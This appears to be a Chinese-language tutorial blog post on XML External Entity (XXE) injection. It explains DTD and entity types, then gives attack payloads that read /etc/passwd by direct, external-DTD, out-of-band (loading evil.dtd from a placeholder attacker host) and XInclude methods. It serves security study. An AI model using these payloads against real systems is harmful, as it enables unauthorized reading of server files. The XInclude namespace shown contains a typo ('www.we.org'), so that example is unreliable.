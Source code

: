 ```yaml
---
title: xxe
date: 2021-12-24 21:46:28
tags:
      - xxe
categories: web基础
typora-root-url: ..
description: xxe
---
```


## xxe

xxe全程XML External Entity Injection即xml外部实体注入漏洞,XXE漏洞发生在**应用程序解析XML输入时,没有禁止外部实体的加载**,导致可能加载恶意外部文件,造成文件读取,命令执行,内网探测...

#### DTD

Document Type Definition 文档类型定义

##### DTD示例

`<!ELEMENT 元素名 类型>`

文件名xxe.dtd

ELEMENT大概作用是定义标签元素的类型

```dtd
<!ELEMENT 班级 (学生+)>
<!ELEMENT 学生 (名字,年龄,介绍)>
<!ELEMENT 名字 (#PCDATA)>
<!ELEMENT 年龄 (#PCDATA)>
<!ELEMENT 介绍 (#PCDATA)>
```

##### PCDATA

PCDATA 的意思是被解析的字符数据（parsed character data）。
PCDATA 是会被解析器解析的文本。这些文本将被解析器检查实体以及标记。

##### CDATA

CDATA 的意思是字符数据（character data）。
CDATA 是不会被解析器解析的文本。

##### XML示例

班级为根元素

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE 班级 SYSTEM "xxe.dtd">
<班级>
	<学生>
        <名字>张三</名字>
        <年龄>19</年龄>
        <介绍>好孩子</介绍>
    </学生>
    <学生>
        <名字>小明</名字>
        <年龄>21</年龄>
        <介绍>学习认真</介绍>
    </学生>
</班级>
```

内部DTD

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE 班级 [
<!ELEMENT 班级 (学生+)>
<!ELEMENT 学生 (名字,年龄,介绍)>
<!ELEMENT 名字 (#PCDATA)>
<!ELEMENT 年龄 (#PCDATA)>
<!ELEMENT 介绍 (#PCDATA)>
]>
<班级>
	<学生>
        <名字>张三</名字>
        <年龄>19</年龄>
        <介绍>好孩子</介绍>
    </学生>
    <学生>
        <名字>小明</名字>
        <年龄>21</年龄>
        <介绍>学习认真</介绍>
    </学生>
</班级>
```



#### 具体操作

##### 内部实体

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE neo[
	<!ELEMENT neo ANY>
	<!ENTITY xxe "hello">
]>
<neo>&xxe;</neo>
```

会在页面回显hello

##### 外部实体

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE neo[
	<!ELEMENT neo ANY>
	<!ENTITY xxe SYSTEM "文档URL">
]>
<neo>&xxe;</neo>
```

##### 参数实体

参数实体只能在DTD文档中定义,DTD中引用

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE neo[
	<!ELEMENT neo ANY>
	<!ENTITY % xxe SYSTEM "http://xxx.xxx.xxx/evil.dtd">
	%xxe;

]>
<neo>&evil;</neo>
```

#### 攻击方式

##### 直接通过DTD外部实体声明

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE neo[
	<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<c>&xxe;</c>
```

##### 通过DTD文档引入外部DTD文档,再引入外部实体声明

xml内容

```xml
<?xml version="1.0"?>
<!DOCTYPE neo SYSTEM "dtd文档url">
<c>&xxe;</c>
```

dtd内容

```dtd
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

##### 通过参数实体(OOB)

先写一个外部实体声明,然后引用在攻击者服务器上面的外部实体声明

xml内容

##### %作用

就我的理解,百分号可以类比于一段命令,它可以在dtd中被定义和执行,它在实例中相当于变量,在xml中相当于命令?

```xml
<?xml version="1.0"?>
<!DOCTYPE a [
	<!ENTITY %d SYSTEM "http://xxx.xxx/evil.dtd">
	%d;
]>
<c>&b;</c>
```

dtd文件内容

```dtd
<!ENTITY b SYSTEM "file:///etc/passwd">
```

#### 协议支持

![image-20220108211411539](https://gitee.com/blue_satchel/images/raw/master/image-20220108211411539.png)

##### XInclude

导入外部xml文档，类似于php的include，将外部定义的dtd引入当前文件，因为引入外部实体具有局限性，所以使用xinclude来引入

首先使用xmls来定义命名空间为 http://www.w3.org/2003/XInclude

 [http://www.w3.org/2003/XInclude](http://www.w3.org/2001/Xinclude) 命名空间中的两个元素，即 include 和 fallback。常用的命名空间前缀是“xi”（但可以根据喜好自由使用任何前缀）

然后接下来就可以使用定义好的xi命名空间中的include来包含文件了,parse可以将文件属性进行转换

一个例子

```xml
<foo xmlns:xi="http://www.we.org/2003/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/>//    单标签别忘了反斜杠
</foo>
```

